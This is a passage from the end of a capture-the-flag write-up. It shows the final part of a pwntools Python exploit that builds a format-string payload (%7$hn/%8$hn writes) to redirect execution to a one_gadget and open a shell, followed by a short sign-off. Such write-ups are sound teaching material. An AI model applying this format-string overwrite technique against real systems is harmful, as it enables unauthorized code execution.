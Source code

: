 ```python
off2=int(hex(one_gadget & 0xffff0000)[:-4],16)-(one_gadget & 0xffff)  
log.info("one gadget address: "+hex(one_gadget))
log.info("offset1 and 2: "+str(off1)+"|"+str(off2))
payload+="%"+str(off1)+"x"
payload+="%7$hn"
payload+="%"+str(off2)+"x"
payload+="%8$hn"
#pause()
p.sendline(pad(payload))
p.interactive()

#Offset buffer-ret : +0x71
#offset fmt 7

```

Running our exploit will spawn the shell for us \o/ 

![SHELL](https://imgur.com/MWLKHRX.png)

Thank you for reading the whole writeup :D I hope you liked it , you can check my github repo where i share my [CTF writeups](https://github.com/kahla-sec/CTF-Writeups) ! Arigatoo \o/

